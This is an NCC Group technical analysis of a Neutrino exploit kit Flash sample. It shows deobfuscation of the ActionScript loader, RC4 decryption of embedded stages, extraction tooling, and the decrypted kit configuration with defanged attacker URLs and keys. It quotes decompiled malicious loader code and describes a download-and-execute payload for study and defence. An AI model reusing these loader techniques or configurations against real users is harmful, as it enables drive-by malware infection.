% Flash Exploit Kit technical note
% Cedric Halbronn
% July 2016

\pagebreak 

# Handling information

This document was produced by the NCC Group Cyber Defence Operations team. The content of this
document should be considered proprietary information. NCC Group has released this report publicly
and gives permission to copy it at TLP WHITE. Please see the US CERT website for full details of 
the traffic light marking system.

# Introduction

On the 15th June 2016 our SOC detected a malicious attack. An internal host visited the site 
`www[.]kiamotorsnigeria[.]com`, a car dealership website in Nigeria which appears to have been 
compromised. Once the user visited this site they were redirected to the malicious domain 
`zodlp[.]aebeike[.]xyz` that delivered a Flash file to the user's browser.

We followed this up because there was traffic after the Flash file, which usually indicates 
some degree of execution or success. However the version of Flash used by the client was 
current at the time, some blogs pointed to a zero day in the wild and the sample was not on 
Virus Total (VT).  This suggested it could be an interesting file.

This document assumes the reader is familiar with Exploit Kits (EK). Otherwise I recommend
this [paper](http://blog.checkpoint.com/wp-content/uploads/2016/08/InsideNuclearsCore_UnravelingMalwarewareasaService.pdf) 
from May 2015 written by CheckPoint on the Nuclear EK.

To contact the author with questions, suggestions or corrections please use the email address
cedric.halbronn@nccgroup.trust or contact me on Twitter (@saidelike).

## Objective 

The objective is to analyse a Flash file part of an EK. When we detect potentially malicious 
Flash files we need to distinguish between the following cases:

* A Flash file redirecting to another page.
* A Flash file embedding an exploit.

The files for analysis are:

File                                 | MD5                               | VT
-------------------------------------|-----------------------------------|---------------
`stage1.swf`                         | `aa99ccbc59cb838b313714e9a0ab9fba`| [Yes](https://www.virustotal.com/en/file/dae9dc5ec101c5e24f24210433eb4e8d0d8adc2752c103e505a22483b10e1206/analysis/1471019219/)
`stage2.swf`                         | `e0b0a0fc87fbc7b7ee0eda97b0a69f58`| No
`1_nw22_swf_rc4.swf`                 | `9349f3fb3da65559ff84fd857e767460`| No
`2_nw23_swf_rc4.swf`                 | `9ee12780016b88573fe9b39194da82f7`| No
`3_nw24_swf_rc4.swf`                 | `f80bda2cd1433298ea5b5b8cdb518ee5`| No
`4_res_js_rc4.js`                    | `e9f75a09e09637483b3da371c6c71606`| [Yes](https://www.virustotal.com/en/file/3c8242348ccd0f9923b963dc46c4f5c7eb66771535bb45322cb6a3240b3f5c55/analysis/) 
`5_nw2_html_rc4.html`                | `35442966a5bf0f2aa292bed954cb3b65`| No
`6_nw7_html_rc4.html`                | `34ab39c5759341ff9d5a0a45451ac3f9`| No 
`7_nw8_html_rc4.html`                | `a47d26c7f24dd22137fec8bbb10791cc`| No

\pagebreak

The files are:

* `stage1.swf`: This is the Flash file that we detected. The original filename is 
  `balance-fountain-click-absurd-merry-sing-examine.swf`.
* `stage2.swf`: Decrypted version of intermediate Flash file stored encrypted in `stage1.swf`.
* `*_nw*_rc4*`: Decrypted versions of various files stored encrypted in `stage2.swf`.
* Files were tested against Virus Total (VT) the 14/07/2016.

Stage 1 was delivered after the browser specified its Flash version (the complete trace 
is available in appendix \ref{http_request}):

```
GET /address/1335107/balance-fountain-click-absurd-merry-sing-examine.swf HTTP/1.1
Accept: */*
Accept-Language: en-GB
Referer: http://zodlp[.]aebeike[.]xyz/absorb/anJqeWtieHZhaw
x-flash-version: 21,0,0,242
```

This version looks suspicious because it is recent and was [targeted in the wild](https://securelist.com/blog/research/75082/cve-2016-4171-adobe-flash-zero-day-used-in-targeted-attacks/)
at the time of this analysis.

## Thanks

Thanks to James Ablett for providing the original sample and for contributing to this document.

Thanks to David Cannings ([\@edeca](https://twitter.com/edeca)) for technical assistance and 
review of this document.

Thanks to Jerome Segura ([\@jeromesegura](https://twitter.com/jeromesegura)) for sharing his 
knowledge on the Neutrino EK.

\pagebreak

# Executive summary

This document details a methodology to analyse all components of the original Flash file.
It details how we manually deobfuscate most of its components and refers to many Python scripts
developed to assist our analysis. These are described in appendix \ref{scripts} and they
are all available to download from NCC Group's Github repository.

The Flash file is part of the Neutrino Exploit Kit (EK).
The ultimate goal, if possible, is to be able to analyse other samples from the same or other
EKs in an automatic (or at least semi-automatic) way.

The original Flash file (`stage1.swf`) was delivered after the browser specified its Flash version 
and there was traffic after the Flash file, indicating some degree of execution / success.

The original Flash file is obfuscated (basic blocks and control flow) which makes static analysis
difficult. It contains encrypted blobs stored in Flash binary data. 
The decryption algorithm is identified as RC4 and the RC4 key can be identified easily as they
are strings in the Action Script decompiled code. Therefore, the encrypted blobs are decrypted:

* `"loadBytes;removeEventListener;stage;contentLoaderInfo;addChild;addEventListener"` is part 
  of the obfuscation and is a list of strings - decrypted at runtime.
* `stage2.swf` is the result of decrypting the concatenation of several blobs.
* `cfg.txt` is the configuration file containing the URLs to be executed after the final
  exploits. This file is actually passed encrypted to `stage2.swf` which uses another RC4 
  key to decrypt it.
* None of these files are written to the filesystem.

The intermediate Flash file (`stage2.swf`) is also obfuscated (basic blocks and control flow). It
also contains RC4 encrypted blobs. The following encrypted blobs are decrypted:

* `cfg.txt` as stated above.
* `4_res_js_rc4.js`: fingerprinting JavaScript to detect if it executes in an analyst
   environment. It detects if one of the following software is installed: Bitdefender, 
   ESET NOD32, Wireshark, VirtualBox, FFDec, VMware, Fiddler2.
* `1_nw22_swf_rc4.swf`: CVE-2015-8651 Flash Integer overflow exploit.
* `2_nw23_swf_rc4.swf`: CVE-2016-1019 Flash type confusion exploit.
* `3_nw24_swf_rc4.swf`: CVE-2016-4117 Flash exploit.
* `6_nw7_swf_rc4.html`: CVE-2014-6332 IE OLE Automation Array RCE.
* `7_nw8_swf_rc4.html`: CVE-2016-0189 IE Scripting Engine Memory Corruption.
* `5_nw2_html_rc4.html`: Other IE exploit.
* None of these files are written to the filesystem.

The payload is a shellcode that XOR-decrypts a second shellcode. The second shellcode
accesses the PEB and parses the list of modules to resolve the `CreateProcessA` address.
Finally it writes a temporary file containing a Visual Basic (VB) script and executes it.

The VB script is obfuscated and is a simple Download/Execute PE file payload. Each exploit uses
a different URL as stated in the `cfg.txt` configuration. All the exploits RC4-decrypt
the remote PE file using a single RC4 key also stored in the configuration. The RC4 key is specific
to the original Flash file. Another Flash file would have another key.

A `neutrino.py` script based on `pyswf` allows us to automatically extract all listed files
for further analysis.

The fingerprinting JavaScript can be tested after enabling a hidden debug feature that allows
every test to be logged in the JavaScript console.
All the exploits (Flash and IE) can be tested independently after having setup the URL and 
RC4 key in the respective files.

Figure \ref{summary_fig} summarises all the components detailed in this document.



\pagebreak

# Initial SWF

First, we analyse `stage1.swf` by dropping the SWF file into 
[JPEXS Free Flash Decompiler](https://www.free-decompiler.com/flash/download/). Note
that the current version (v8.0.1) hangs forever if the file does not end with `.swf`, e.g.: if
it ends with `.swf_`, see figure \ref{jpexs_bug}.



After renaming the extension to `.swf`, we get the result in figure \ref{stage1_analysis} 
and we can see:

* The only interesting Action Script is `owaugjojgtx.as`.
* There are 14 binary blobs. It looks like they are encrypted.



We use the JPEXS GUI or the following [command line](https://www.free-decompiler.com/flash/features/commandline/) [](http://stackoverflow.com/questions/2984273/how-to-automatically-decompile-swf-file-on-my-server) to extract the Action Script and binary data:

```
C:\>"C:\Program Files (x86)\FFDec\ffdec.bat" -export script,binaryData \
    "C:\Users\user\Desktop\stage1_src" "C:\Users\user\Desktop\stage1.swf"
...
Exported binarydata 1/14 DefineBinaryData (1: d.picuazscsx)
Exported binarydata 2/14 DefineBinaryData (2: d.daimfxmlnvui)
...
Exported script 8/18 d.ifpafpijuxcghif, 00:00.093
Exported script 2/18 mx.core.IFlexAsset, 00:00.109
...
```

\pagebreak

## Dynamic analysis using `trace()`

In this section we attempt to dynamically dump the next stage. We failed to do so
but the method is interesting anyway to quickly determine if a file needs more analysis.

We analyse the constructor of the `owaugjojgtx` class (see code below):

* We quickly notice some obfuscation with lots of unused variables. We ignore this for now.
* Blobs `rmyrxhyabwygug` and `meqlxhywzvdyv` are used as arguments of `z()` and the result is
  split using `";"` as a separator. The result is saved into `this.x`.
* `this.x[5]` is used later in the function.

\label{code_owaugjojgtx}

```actionscript
 public class owaugjojgtx extends MovieClip
 {

    private var x:Array;

    public function owaugjojgtx()
    {
       var _loc17_:int = 0;
       var _loc8_:int = 0;
       ...
       var _loc7_:int = 257934;
       var _loc9_:int = 299264;
       this.x = this.z(new rmyrxhyabwygug() as ByteArray,
                   new meqlxhywzvdyv()  as ByteArray).toString().split(";");
       var _loc10_:int = 702556;
       var _loc5_:int = 806103;
       var _loc3_:int = 320039;
       var _loc13_:int = 885726;
       if(this[this.x[2]])
       {
          ...
       }
       else
       {
          _loc15_ = 176392;
          _loc2_ = 383009;
          this[this.x[5]]("addedToStage",this.h);
```

We now analyse the `z()` function (see code below):

* It uses the same obfuscation with a lot of unused variables.
* It uses the XOR (`^`) and addition operations.
* We safely assume that it is a decryption routine taking a key and the encrypted data as
  arguments.
* It is not shown in this document but other blobs `iecqnvmtbfwkz`, `rrazhdfpslkf`, `xsloaqqqdldwnit`,
  `ifpafpijuxcghif`, `artahkrkwuh`, `daimfxmlnvui`, `xoafugflzgskxd`, `skrvlzirxvd`,
  `qysjvhjabpgm`, `mfakihctyyfxh` are concatenated and given as second argument of `z()` so
  this is probably the encrypted data. `rmyrxhyabwygug` is used as first argument in this case
  so this is most probably the key.

```actionscript
private function z(param1:ByteArray, param2:ByteArray) : ByteArray
{
   var _loc59_:* = 0;
   var _loc48_:* = 0;
   var _loc21_:int = 0;
   ...
   _loc48_ = 0;
   while(_loc48_ < 256)
   {
      _loc64_ = 276047;
      _loc38_ = 107493;
      _loc53_ = _loc53_ + _loc19_[_loc48_] 
          + param1[_loc48_ % param1.length] & 255;
      _loc57_ = 413805;
      _loc37_ = 251300;
      _loc59_ = uint(_loc19_[_loc48_]);
      _loc19_[_loc48_] = _loc19_[_loc53_];
      _loc19_[_loc53_] = _loc59_;
      _loc24_ = 373052;
      _loc56_ = 547096;
      _loc48_++;
   }
   var _loc52_:int = 87788;
   ...
   _loc26_ = uint(0);
   while(_loc26_ < param2.length)
   {
      _loc66_ = 449827;
      _loc44_ = 846645;
      _loc48_ = _loc48_ + 1 & 255;
      _loc54_ = 442480;
      _loc46_ = 452789;
      _loc53_ = _loc53_ + _loc19_[_loc48_] & 255;
      _loc42_ = 870997;
      _loc6_ = 451234;
      _loc59_ = uint(_loc19_[_loc48_]);
      _loc19_[_loc48_] = _loc19_[_loc53_];
      _loc19_[_loc53_] = _loc59_;
      _loc62_ = 150670;
      _loc36_ = 314088;
      _loc33_[_loc26_] = param2[_loc26_] ^ _loc19_[_loc19_[_loc48_] 
                    + _loc19_[_loc53_] & 255];
      _loc28_ = 165594;
      _loc16_ = 291681;
      _loc26_++;
   }
   ...
   return _loc33_;
}
```

We analyse the bytecode of the function epilogue, near `return _loc33_;`, see figure
\ref{stage1_z_function} on the right part.


\pagebreak

We use a method that Francesco Mifsud (@GradiusX) very well described in a 
[blog post](http://vulnerablespace.blogspot.co.uk/2016/04/malware-analysing-and-repurposing.html)
while analysing and repurposing a Spartan EK's Flash exploit.
By editing the bytecode (right window), we modify the actual Flash file and save it for
further analysis. The idea is to add a call to the `trace()` function. The argument of `trace()`
is then logged in an external file. To do so we first need to create a `C:\Users\<user>\mm.cfg`
file with the following content:

```
ErrorReportingEnable=1
TraceOutputFileEnable=1
```

Then we add the following bytecode in the `z()` function in JPEXS before the original 
`getlocal 33` i.e. before the ``return _loc33_;``:

```actionscript
findpropstrict Qname(PackageNamespace(""),"trace")
getlocal 33
callproperty Qname(PackageNamespace(""),"trace") 1
```

Even if JPEXS is not able to show any update in the source code (left window), 
it basically adds a `trace(_loc33_);`
call before the `return` (see figure \ref{stage1_trace}).


Now we use the standalone debug Flash to load the new 
`stage1-trace.swf` file, see figure \ref{flash_standalone}. In testing we used  
`21_0_r0_242_debug\flashplayer21_0r0_242_win_sa_debug.exe` from 
[`fp_21.0.0.242_archive.zip`](https://helpx.adobe.com/flash-player/kb/archived-flash-player-versions.html).



\pagebreak 

We get the log in 
`C:\Users\<user>\AppData\Roaming\Macromedia\Flash Player\Logs\flashlog.txt`, 
see figure \ref{stage1_trace_log}. A few interesting facts:

* We notice the JavaScript keywords separated by "`;`".
* There is also a Flash file (starting with the `CWS` magic).
* These correspond to the two z() calls we saw earlier.


Unfortunately, we don't get the actual SWF file with this method because the `trace()` function
doesn't allow us to write non-ASCII characters.

We tried to use `trace(escape(_loc33_));`, as described in figure \ref{stage1_trace_escape} and 
we get the output in figure \ref{stage1-escape_log}. As expected the characters are encoded.


\pagebreak

We used the `decode_escape.py` script to decode the output of the Action Script 
[`escape()`](http://help.adobe.com/en_US/FlashPlatform/reference/actionscript/3/package.html#escape%28%29)
function.
Unfortunately, we haven't managed to decode them correctly using Python in order to get a valid 
Flash file that can be loaded by JPEXS. This is because some characters are not decoded correctly.
E.g.: In figure \ref{escape_bad_characters} we detail that we got a `%CC` after using `escape()` 
which ended up being decoded as byte `0xCC` whereas
the result should have been two bytes `0xC3 0x8C`. It is not clear why we got this result though.



We also tried to use `trace(encodeURI(_loc33_));` but we get an error that the text is not a valid
URI. Obviously this cannot work, see figure \ref{stage1-encodeURI_fail}.


\pagebreak

## Manual static analysis

\label{static_analysis}

This section details how we extract the next SWF with manual static
analysis. This serves as a methodology we can use when
we don't know the sample's format. However, keep in mind that we want to automate things as
much as possible to be able to analyse new samples automatically.

We first need to remove obfuscation. We could comment unused variables like below and then
remove them but it would be time consuming:

```actionscript
//         var _loc34_:int = 665800;
//         var _loc51_:int = 256697;
         _loc48_ = 0;
         while(_loc48_ < 256)
         {
//            _loc64_ = 276047;
//            _loc38_ = 107493;
            _loc53_ = _loc53_ + _loc19_[_loc48_] + param1[_loc48_ % param1.length] & 255;
//            _loc57_ = 413805;
//            _loc37_ = 251300;
            _loc59_ = uint(_loc19_[_loc48_]);
            _loc19_[_loc48_] = _loc19_[_loc53_];
            _loc19_[_loc53_] = _loc59_;
//            _loc24_ = 373052;
//            _loc56_ = 547096;
            _loc48_++;
         }
```

Instead, we use the `stage1_deobfuscate.py` script:

* We do a first pass to save variables names that are NOT part of a simple assignment to 
  integer (e.g.: `_loc53_`, `_loc19_`, `_loc48_`, etc. above).
* We do a second pass to remove all simple assignments to integer if they are not
  in the previous list.

We get a nice deobfuscated code. You can compare it to the code of `z()` described earlier:

```actionscript
private function z(param1:ByteArray, param2:ByteArray) : ByteArray
{
   var _loc59_:* = 0;
   var _loc48_:* = 0;
   var _loc14_:int = 0;
   var _loc26_:* = 0;
   var _loc18_:int = 671490;
   var _loc19_:ByteArray = new ByteArray();
   var _loc53_:uint = 0;
   var _loc33_:ByteArray = new ByteArray();
   var _loc7_:int = 222885;
   var _loc50_:int = 725575;
   _loc48_ = 0;
   while(_loc48_ < 256)
   {
      _loc19_[_loc48_] = _loc48_;
      _loc14_ = 542364;
      _loc48_++;
   }
   _loc48_ = 0;
   while(_loc48_ < 256)
   {
      _loc53_ = _loc53_ + _loc19_[_loc48_] + param1[_loc48_ % param1.length] & 255;
      _loc59_ = uint(_loc19_[_loc48_]);
      _loc19_[_loc48_] = _loc19_[_loc53_];
      _loc19_[_loc53_] = _loc59_;
      _loc48_++;
   }
   _loc48_ = 0;
   _loc53_ = 0;
   var _loc9_:int = 354561;
   _loc26_ = uint(0);
   while(_loc26_ < param2.length)
   {
      _loc48_ = _loc48_ + 1 & 255;
      _loc53_ = _loc53_ + _loc19_[_loc48_] & 255;
      _loc59_ = uint(_loc19_[_loc48_]);
      _loc19_[_loc48_] = _loc19_[_loc53_];
      _loc19_[_loc53_] = _loc59_;
      _loc33_[_loc26_] = param2[_loc26_] ^ _loc19_[_loc19_[_loc48_] 
                   + _loc19_[_loc53_] & 255];
      _loc26_++;
   }
   var _loc35_:int = 379813;
   return _loc33_;
}
```

Note that some variables part of the obfuscation are still present (e.g.: `var _loc9_:int = 354561;`)
because the same name is used somewhere else in the code but in a different function, e.g.:

```actionscript
var _loc9_:Loader = new Loader();
```

However we don't deal with that as we have enough information to re-write a decryption routine
in Python. 
To do so we rename the local variables in `z()` (which is now `decrypt()`) in something even more readable:

```actionscript
private function decrypt(param1:ByteArray, param2:ByteArray) : ByteArray
{
   var k:* = 0;
   var i1:* = 0;
   var i2:* = 0;
   var _arr1:ByteArray = new ByteArray();
   var j:uint = 0;
   var _arr2:ByteArray = new ByteArray();
   i1 = 0;
   while(i1 < 256)
   {
      _arr1[i1] = i1;
      i1++;
   }
   i1 = 0;
   while(i1 < 256)
   {
      j = j + _arr1[i1] + param1[i1 % param1.length] & 255;
      k = uint(_arr1[i1]);
      _arr1[i1] = _arr1[j];
      _arr1[j] = k;
      i1++;
   }
   i1 = 0;
   j = 0;
   i2 = uint(0);
   while(i2 < param2.length)
   {
      i1 = i1 + 1 & 255;
      j = j + _arr1[i1] & 255;
      k = uint(_arr1[i1]);
      _arr1[i1] = _arr1[j];
      _arr1[j] = k;
      _arr2[i2] = param2[i2] ^ _arr1[_arr1[i1] + _arr1[j] & 255];
      i2++;
   }
   return _arr2;
}
```

We port it in Python in the `stage1_decrypt.py` script:

* The decrypted string `loadBytes;removeEventListener;stage;contentLoaderInfo;addChild;addEventListener`
  is used to initialise `this.x`, see code in section \ref{code_owaugjojgtx}.
* `stage2.swf` is a second Flash file loaded in memory.

Note that the decryption algorithm is actually RC4 but we didn't realise that at the time of 
quickly wrapping some code to decrypt it. Another clue for this is that RC4 is also used in
stage 2 (more on this later).

We replace the instances of `this.x[]` in the source code using `stage1_replace.py`. All parts
of the Action Script source code have been explained except the following:

* `_loc35_` is the decrypted `stage2.swf`. It is used to initialise the `Loader.loadBytes`.
* The callback `q` is defined to be executed when the `stage2.swf` file has finished loading.
* The callback `q` intialises a MovieClip with the `stage2.swf` data and appends it as a child
  to start execution.
* Finally it calls the stage2 `et()` function and passes the `picuazscsx` blob as an argument.
  We details this when analysing `stage2.swf` in section \ref{internal_configuration}.

```actionscript
private function h(param1:Event = null) : void
{
   ... 
   _loc35_ = this.decrypt(_loc50_,_loc35_);
   var _loc9_:Loader = new Loader();
   _loc9_["contentLoaderInfo"]["addEventListener"]("complete",this.q);
   _loc9_["loadBytes"](_loc35_);
}

private function q(param1:Event) : void
{
   this["removeEventListener"]("complete",this.q);
   var _loc18_:ByteArray = new picuazscsx() as ByteArray;
   var _loc14_:MovieClip = MovieClip(param1.target.content);
   this["stage"]["addChild"](_loc14_);
   _loc14_.et(_loc18_);
}
```

## Automatic extraction with Sulo

Jerome Segura from Malwarebytes LABS details 
[another approach](https://blog.malwarebytes.com/cybercrime/exploits/2016/06/neutrino-ek-fingerprinting-in-a-flash/) 
to extract stage 2 in a similar piece of Flash file. 
It consists of using [Sulo](https://github.com/F-Secure/Sulo) which is an open-source dynamic
instrumention tool for Adobe Flash Player built on Intel Pin developed by F-Secure.
In this section we detail how we automatically dumped stage 2 using Sulo.

The latest commit `2e7eef2` dates from 5 Aug 2014. The Github page details
how to install and use it. First, we download and install
[Visual Studio 2010 Express](http://download.microsoft.com/download/1/E/5/1E5F1C0A-0D5B-426A-A603-1798B951DDAE/VS2010Express1.iso).
Then we download and extract 
[Intel Pin kit for Visual Studio 2010](http://software.intel.com/sites/landingpage/pintool/downloads/pin-2.13-65163-msvc10-windows.zip).
We download [Sulo](https://github.com/F-Secure/Sulo/archive/master.zip) and extract
its content inside the Pin folder under `source\tools\Sulo`. We open the Sulo Visual Studio 
solution file `C:\pin-2.13-65163-msvc10-windows\source\tools\Sulo\sulo_VS2010.sln`
and compile the project to get `C:\pin-2.13-65163-msvc10-windows\source\tools\Sulo\Debug\sulo.dll`
Finally we download and extract
[Flash 11.1.102.62](http://fpdownload.macromedia.com/get/flashplayer/installers/archive/fp_11.1.102.62_archive.zip).
Note we choose this old version as recommended in the Github page.

Now that everything is installed, we execute the following command which indicates to
instrument the Flash standalone non-debug executable with Pin and the Sulo tool DLL.

```
C:\pin-2.13-65163-msvc10-windows>pin.exe -t source\tools\Sulo\Debug\sulo.dll -- \
C:\fp_11.1.102.62_archive\11_1r102_62_32bit\flashplayer11_1r102_62_win_sa_32bit.exe
```

It opens a window that allows us to open our Flash file.
Note that the window takes more time to load due to the Pin instrumentation
but it is still usable. We open `stage1.swf` using `File > Open`. 
After the Flash file is loaded, it creates the file: 
`C:\Users\User\Desktop\dumped_flash_0.bin` which is our `stage2.swf`.

Internally, Sulo dumps Flash objects loaded with `Loader.loadBytes()` to disk. As detailed in section 
\ref{static_analysis}, stage 2 is indeed loaded using this method.

\pagebreak

# Intermediate SWF

We analyse `stage2.swf` with JPEXS, see figure \ref{stage1_analysis}:

* All interesting classes have obfuscated class, function and variables names. Note that they 
  all contain the `§` symbol.
* There are 7 binary encrypted blobs.



## Manual renaming 

We export the source code using JPEXS and import it in 
[FlashDevelop](http://www.flashdevelop.org/). We use this IDE to rename all items that contain
the `§` symbol. We use the following method to get figure \ref{stage2_renaming}:

* Search for the `§` symbol to check if there is any remaining item to rename.
* If one is found, search again for the complete name (e.g.: `§!!§`) and replace it with a unique
  name not previously used.
* Repeat until there is no `§` symbol anymore.

We could automate the renaming with a script and detect if the name is part of
a variable, function or package name by using pattern matching. We didn't do that
at first until we realised that the original names are still present in the bytecode, 
see section \ref{automatic_renaming}.


\pagebreak

## RC4 decryption 

The code is not 100% readable but we understand what it does. Let's look at the `blob3` code:

* `m_myClass1` is initialised to `nw23_swf_rc4` blob
* `m_myStr2` is initialised to a static string `"edfdamtlkfg511485"`
* An event is registered to call `this.method1`

```actionscript
  public function blob3(param1:Object, param2:Object)
  {
     if(!_loc4_)
     {
        m_myClass1 = nw23_swf_rc4$ff09886f44cb2db0af6cdbff7a01061f2083705692;
        if(!_loc4_)
        {
           ...
                 this.m_myStr2 = "edfdamtlkfg511485";
                 if(!_loc4_)
                 {
                    if(stage)
                    {
                       if(!_loc4_)
                       {
                          §§goto(addr123);
                       }
                    }
                    else
                    {
                       addEventListener("addedToStage",this.method1);
                    }
                    §§goto(addr134);
      ...
  }
```

So we analyse `method1`:

* It converts `m_myClass1` into a ByteArray saved into `_loc2_`.
* It calls a method from `blob1` (that we named `method12_maybe_rc4_decrypt2`).
* Finally it loads the decrypted result.

```actionscript
  private final function method1(param1:Event = null) : void
  {
     ...
     var _loc2_:ByteArray = new m_myClass1() as ByteArray;
     _loc2_ = blob1.method12_maybe_rc4_decrypt2(_loc2_,this.m_myStr2);
     ...
     var _loc4_:Loader = new Loader();
     _loc4_.loadBytes(_loc2_);
     if(!_loc5_)
     {
        this.stage.addChild(_loc4_);
     }
  }
```

The `method12_maybe_rc4_decrypt2` function is not easily readable. The decompilation
fails because of obfuscation but we make the assumption 
that it is an RC4 decryption routine as it takes a blob as first argument (data to decrypt) 
and a static string as second argument (RC4 key).
We look at the references to `method12_maybe_rc4_decrypt2` and see the following arguments:

* Blob 2: `(res_js_rc4, "edfdamtlkfg511485")`
* Blob 3: `(nw23_swf_rc4, "edfdamtlkfg511485")`
* Blob 4: `(nw7_html_rc4, "edfdamtlkfg511485")`
* Blob 5: `(nw8_html_rc4, "edfdamtlkfg511485")`
* Blob 6: `(nnw24_swf_rc4, "edfdamtlkfg511485")`
* Blob 7: `(nw2_html_rc4, "edfdamtlkfg511485")`
* Blob 8: `(nw22_swf_rc4, "edfdamtlkfg511485")`
* mainClass: `(???, "kpbbwoff17384")`

Blobs 2 and 7 cases are not obvious as we don't see any call to
`method12_maybe_rc4_decrypt2` in the decompiled source code - this is due to obfuscation. We check 
our assumption by looking at the bytecode in JPEXS. The same key is used for all of them except one.
Note that the blobs have their original names, as can be seen
in JPEXS, see figure \ref{stage2_analysis} (e.g.: `res_js_rc4`).
We use the `stage2_decrypt.py` script to decrypt all these blobs.
The blob encrypted with a different key is the internal configuration and is detailed in section 
\ref{internal_configuration}.

## ZLIB decompression

There is an extra call to `uncompress("deflate")` for blobs 2, 4, 5 and 7 i.e.
all the non-SWF ones.
The following approaches can be used to uncompress them:

- Using Python `zlib.decompress`, see `stage2_decompress.py` script. 
  It is important to specify that the input is a raw stream 
  with no header or trailer as stated in the
  [documentation](https://docs.python.org/3/library/zlib.html#zlib.decompress). Otherwise you
  get the following error: `zlib.error: Error -3 while decompressing data: incorrect header check`.
- Using C# `IO.Compression.DeflateStream`, see `Uncompress.cs` script.

## Automatic renaming

\label{automatic_renaming}

If the obfuscated decompiled code is not clear enough,
we use `ffdec.bat` from JPEXS installation to get the bytecode assembly source files:

```
C:\>"C:\Program Files (x86)\FFDec\ffdec.bat" -format script:pcode -export script \
    "C:\Users\User\Desktop\ByteCode" "C:\Users\user\Desktop\stage2.swf"
...
Exported script 10/16 §nw22_swf_rc4$341acf8a38c7ef2cbe35c674750c202b-394312611§, 00:00.124
Exported script 11/16 nw23_swf_rc4$ff09886f44cb2db0af6cdbff7a01061f2083705692, 00:00.016
...
Exported script 2/16 §2§.§2§, 00:00.234
Exported script 5/16 §!!§.§&§, 00:00.249
...
```

Although the files are obfuscated with `§`, we see in figure \ref{pcode} that the disassembly contains
the original names, e.g.: `§!§` is `decodeRtConfig`:



\pagebreak

We use the `get_names_from_bytecode.py` script to rename all the symbols associated with names 
containing `§`. The algorithm is the following:

* We parse all Assembly files (`.pcode`).
* When a variable's or function's obfuscated name (i.e. containing a `§`) is detected, 
  we save the obfuscated name.
* When a `name "..."` is detected, we save the previously obfuscated name with the 
  real name in a `symbols` dictionary.
* Finally we replace all found symbols in the Action Script files (`.as`).

We notice the following interesting symbols:

* `landing`: Entry point.
* `nw24`, `nw8`, `nw23`, `nw2`, `nw22`, `nw7`, `Res`: One class for each exploit 
  (see section \ref{exploits}).
* `isSuitable`: One such method defined for every exploit; prerequisites
  for the exploit to work.
* `Crypt`, `rc4`, `xor`: Decryption class and methods. `xor` is not used and
  `rc4` is `method12_maybe_rc4_decrypt2` described earlier.
* `checkEnvironment`, `collectBrowserInfo`, `checkBrowserInfo`, `getFlVerUint`, `objectToJson`:
  Some helper functions.
* `decodeRtConfig`: Decrypts the internal configuration (see section
   \ref{internal_configuration}).
* `jsPing`, `postBinary`, `postBotInfo`: Exfiltrates information or pings back to indicate
  something was successful.
* `init`: Initialisation function for all classes.

## Internal configuration

\label{internal_configuration}

While analysing `stage1.swf`, we described a call to stage2 `landing.et(picuazscsx_data)`.
We analyse the decompiled source code in this section. We don't end
up understanding how it is processed though because of obfuscation:

* The `et()` method saves the `picuazscsx` blob into `this.m_myArray01`. Unfortunately, 
  `m_myArray01` is not used anywhere else in the source code, probably because of obfuscation
  that makes JPEXS badly decompile the Flash file.
* There is a `this.init()` call.

```actionscript
public final function et(param1:ByteArray) : void
{
   if(!_loc2_)
   {
      this.m_myArray01 = param1;
      if(!_loc3_)
      {
         ...
            addEventListener("addedToStage",this.init);
      }
   }
}
```

So we analyse the call to `this.init`, we can see the following variable initialisation and
function calls:

* `this.m_myStr01 = "kpbbwoff17384";`: the format is very similar to the previous RC4 key we
  encountered - some letters then some digits.
* `this.checkEnvironment()`
* `this.collectBrowserInfo()`
* `this.decodeRtConfig()`
* `this.onSuccess();`
* `this.postBotInfo();`
* `this.jsPing()`
* `this.checkBrowserInfo()`

We look for `m_myStr01` in the source code and find the following code. Though it is not 
obvious what `_loc3_` and `m_myObj13` are in the decompiled source code, 
we can infer that the blob being decrypted is `picuazscsx` with the following key: 
`m_myStr01 = "kpbbwoff17384"`

```actionscript
public final function onFailed(param1:String, param2:int) : void
{
    ...
    _loc3_.writeUTFBytes(this.objectToJson(this.m_myObj13));
    ...
    _loc3_ = Crypt.rc4(_loc3_,this.m_myStr01);
}
```

We try to decrypt the `picuazscsx` blob with the `"kpbbwoff17384"` key but it does not work.
If we look further the bytes of the blob, we see a number before the encrypted data (e.g.: `482`
in figure \ref{config}):


\pagebreak

After a few tests, we realise that it corresponds to the size of the encrypted data. We
write a script to decrypt it, see `stage1_decrypt.py`. It looks like this
configuration gives the URL used for each exploit:

```python
{'debug': {'flash': False},
 'exploit': {
    'nw2': {'enabled': True},
    'nw22': {'enabled': True},
    'nw23': {'enabled': True},
    'nw24': {'enabled': True},
    'nw7': {'enabled': True},
    'nw8': {'enabled': True}},
 'key': {'payload': 'njikqzcmxs'},
 'link': {
    'backUrl': '',
    'bot': 'hxxp://zodlp[.]aebeike[.]xyz/metal/1375169/
            unconscious-damage-straighten-absence-cart-aunt-anyway-thread-dusty',
    'flPing': 'hxxp://zodlp[.]aebeike[.]xyz/1972/02/18/massive/certain/sergeant/
               slope-breathe-unexpected-upright-temple-faster-patrician-grace.html',
    'jsPing': 'hxxp://zodlp[.]aebeike[.]xyz/chance/family-structure-misery-20446186',
    'pnw2': 'hxxp://zodlp[.]aebeike[.]xyz/blur/confusion-backward-doze-14532603',
    'pnw22': 'hxxp://zodlp[.]aebeike[.]xyz/breast/ZW92eHZ6cGg',
    'pnw23': 'hxxp://zodlp[.]aebeike[.]xyz/2003/09/08/decide/hard/knot/
              explore-unfortunate-bewilder.html',
    'pnw24': 'hxxp://zodlp[.]aebeike[.]xyz/fear/eXF2cGY',
    'pnw7': 'hxxp://zodlp[.]aebeike[.]xyz/1984/07/07/history/already/
             sink-drift-baby-altogether-wolf.html',
    'pnw8': 'hxxp://zodlp[.]aebeike[.]xyz/2015/04/21/motion/
             treat-monstrous-passage-crook-firm.html',
    'soft': 'hxxp://zodlp[.]aebeike[.]xyz/bosom/bmpzbWFvYmdr'},
 'marker': 'rtConfig'}
```

This configuration file is useful to:

* Determine what part of the exploit succeeded when looking at a network trace.
* Check what exploit is enabled/disabled.
* Determine the RC4 encryption key used to retrieve the remote PE file (more on this
  section \ref{vb_script}).

\pagebreak

\label{exploits}

# Target fingerprinting

`4_res_js_rc4` is a fingerprinting JavaScript file used before executing exploits. Jerome Segura's
[blogpost](https://blog.malwarebytes.com/cybercrime/exploits/2016/06/neutrino-ek-fingerprinting-in-a-flash/) 
details that it contains strings related to Virtual Machines, Antivirus, etc. 
